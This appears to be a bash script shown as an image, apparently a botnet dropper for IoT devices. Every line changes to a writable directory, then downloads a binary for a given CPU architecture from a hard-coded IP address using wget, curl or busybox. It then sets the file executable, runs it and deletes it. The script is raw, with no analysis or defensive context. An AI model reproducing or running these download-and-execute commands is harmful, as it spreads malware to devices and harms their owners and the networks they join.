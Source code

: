 ```bash
wget http://37.44.238.92/bins/7QHC5pMEH9TTTNrssZuZWwCur8ig80hgfa; curl -O  http://37.44.238.92/bins/7QHC5pMEH9TTTNrssZuZWwCur8ig80hgfa;/bin/busybox wget http://37.44.238.92/bins/7QHC5pMEH9TTTNrssZuZWwCur8ig80hgfa; chmod 777 7QHC5pMEH9TTTNrssZuZWwCur8ig80hgfa; ./7QHC5pMEH9TTTNrssZuZWwCur8ig80hgfa;rm 7QHC5pMEH9TTTNrssZuZWwCur8ig80hgfa ##sparc

wget http://37.44.238.92/bins/qLnWV2Qm5TJZwHN7QmPybNRlLE1HphWjfb; curl -O  http://37.44.238.92/bins/qLnWV2Qm5TJZwHN7QmPybNRlLE1HphWjfb;/bin/busybox wget http://37.44.238.92/bins/qLnWV2Qm5TJZwHN7QmPybNRlLE1HphWjfb; chmod 777 qLnWV2Qm5TJZwHN7QmPybNRlLE1HphWjfb; ./qLnWV2Qm5TJZwHN7QmPybNRlLE1HphWjfb;rm qLnWV2Qm5TJZwHN7QmPybNRlLE1HphWjfb ##x86_64

wget http://37.44.238.92/bins/ObtRzbXMZ0GLfCR0BK23moxR4k1LgUKj5Q; curl -O  http://37.44.238.92/bins/ObtRzbXMZ0GLfCR0BK23moxR4k1LgUKj5Q;/bin/busybox wget http://37.44.238.92/bins/ObtRzbXMZ0GLfCR0BK23moxR4k1LgUKj5Q; chmod 777 ObtRzbXMZ0GLfCR0BK23moxR4k1LgUKj5Q; ./ObtRzbXMZ0GLfCR0BK23moxR4k1LgUKj5Q;rm ObtRzbXMZ0GLfCR0BK23moxR4k1LgUKj5Q ##armv7l

cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://37.44.238.92/bins/MCWmH8qLGsVQZzvbYfRMovyxDSv25KlH75; curl -O  http://37.44.238.92/bins/MCWmH8qLGsVQZzvbYfRMovyxDSv25KlH75;/bin/busybox wget http://37.44.238.92/bins/MCWmH8qLGsVQZzvbYfRMovyxDSv25KlH75; chmod 777 MCWmH8qLGsVQZzvbYfRMovyxDSv25KlH75; ./MCWmH8qLGsVQZzvbYfRMovyxDSv25KlH75;rm MCWmH8qLGsVQZzvbYfRMovyxDSv25KlH75 ##armv4l

cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://37.44.238.92/bins/MDukejRpEVRJtAF8qJOUHxMH7xLDBBSPzA; curl -O  http://37.44.238.92/bins/MDukejRpEVRJtAF8qJOUHxMH7xLDBBSPzA;/bin/busybox wget http://37.44.238.92/bins/MDukejRpEVRJtAF8qJOUHxMH7xLDBBSPzA; chmod 777 MDukejRpEVRJtAF8qJOUHxMH7xLDBBSPzA; ./MDukejRpEVRJtAF8qJOUHxMH7xLDBBSPzA;rm MDukejRpEVRJtAF8qJOUHxMH7xLDBBSPzA ##mips

cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://37.44.238.92/bins/y4cOM46uRtKFAfg7vowXnJ6sPSo9YtWU4q; curl -O  http://37.44.238.92/bins/y4cOM46uRtKFAfg7vowXnJ6sPSo9YtWU4q;/bin/busybox wget http://37.44.238.92/bins/y4cOM46uRtKFAfg7vowXnJ6sPSo9YtWU4q; chmod 777 y4cOM46uRtKFAfg7vowXnJ6sPSo9YtWU4q; ./y4cOM46uRtKFAfg7vowXnJ6sPSo9YtWU4q;rm y4cOM46uRtKFAfg7vowXnJ6sPSo9YtWU4q ##mipsel

cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://37.44.238.92/bins/wk7VTKwCVeEQJUdhBBXEYBpypx8AKzXuTR; curl -O  http://37.44.238.92/bins/wk7VTKwCVeEQJUdhBBXEYBpypx8AKzXuTR;/bin/busybox wget http://37.44.238.92/bins/wk7VTKwCVeEQJUdhBBXEYBpypx8AKzXuTR; chmod 777 wk7VTKwCVeEQJUdhBBXEYBpypx8AKzXuTR; ./wk7VTKwCVeEQJUdhBBXEYBpypx8AKzXuTR;rm wk7VTKwCVeEQJUdhBBXEYBpypx8AKzXuTR ##i586

cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://37.44.238.92/bins/ObtRzbXMZ0GLfCR0BK23moxR4k1LgUKj5Q; curl -O  http://37.44.238.92/bins/ObtRzbXMZ0GLfCR0BK23moxR4k1LgUKj5Q;/bin/busybox wget http://37.44.238.92/bins/ObtRzbXMZ0GLfCR0BK23moxR4k1LgUKj5Q; chmod 777 ObtRzbXMZ0GLfCR0BK23moxR4k1LgUKj5Q; ./ObtRzbXMZ0GLfCR0BK23moxR4k1LgUKj5Q;rm ObtRzbXMZ0GLfCR0BK23moxR4k1LgUKj5Q ##armv7l

cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://37.44.238.92/bins/j5pF2uRAfRIrxFbSnk6Wcqg8sFoHfAcw0f; curl -O  http://37.44.238.92/bins/j5pF2uRAfRIrxFbSnk6Wcqg8sFoHfAcw0f;/bin/busybox wget http://37.44.238.92/bins/j5pF2uRAfRIrxFbSnk6Wcqg8sFoHfAcw0f; chmod 777 j5pF2uRAfRIrxFbSnk6Wcqg8sFoHfAcw0f; ./j5pF2uRAfRIrxFbSnk6Wcqg8sFoHfAcw0f;rm j5pF2uRAfRIrxFbSnk6Wcqg8sFoHfAcw0f ##powerpc-440fp

cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://37.44.238.92/bins/7QHC5pMEH9TTTNrssZuZWwCur8ig80hgfa; curl -O  http://37.44.238.92/bins/7QHC5pMEH9TTTNrssZuZWwCur8ig80hgfa;/bin/busybox wget http://37.44.238.92/bins/7QHC5pMEH9TTTNrssZuZWwCur8ig80hgfa; chmod 777 7QHC5pMEH9TTTNrssZuZWwCur8ig80hgfa; ./7QHC5pMEH9TTTNrssZuZWwCur8ig80hgfa;rm 7QHC5pMEH9TTTNrssZuZWwCur8ig80hgfa ##sparc

cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://37.44.238.92/bins/qLnWV2Qm5TJZwHN7QmPybNRlLE1HphWjfb; curl -O  http://37.44.238.92/bins/qLnWV2Qm5TJZwHN7QmPybNRlLE1HphWjfb;/bin/busybox wget http://37.44.238.92/bins/qLnWV2Qm5TJZwHN7QmPybNRlLE1HphWjfb; chmod 777 qLnWV2Qm5TJZwHN7QmPybNRlLE1HphWjfb; ./qLnWV2Qm5TJZwHN7QmPybNRlLE1HphWjfb;rm qLnWV2Qm5TJZwHN7QmPybNRlLE1HphWjfb ##x86_64

cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://37.44.238.92/bins/1Url4Vmjm3jutDoL4IALrwVcTgwtmfdAki; curl -O  http://37.44.238.92/bins/1Url4Vmjm3jutDoL4IALrwVcTgwtmfdAki;/bin/busybox wget http://37.44.238.92/bins/1Url4Vmjm3jutDoL4IALrwVcTgwtmfdAki; chmod 777 1Url4Vmjm3jutDoL4IALrwVcTgwtmfdAki; ./1Url4Vmjm3jutDoL4IALrwVcTgwtmfdAki;rm 1Url4Vmjm3jutDoL4IALrwVcTgwtmfdAki ##powerpc

```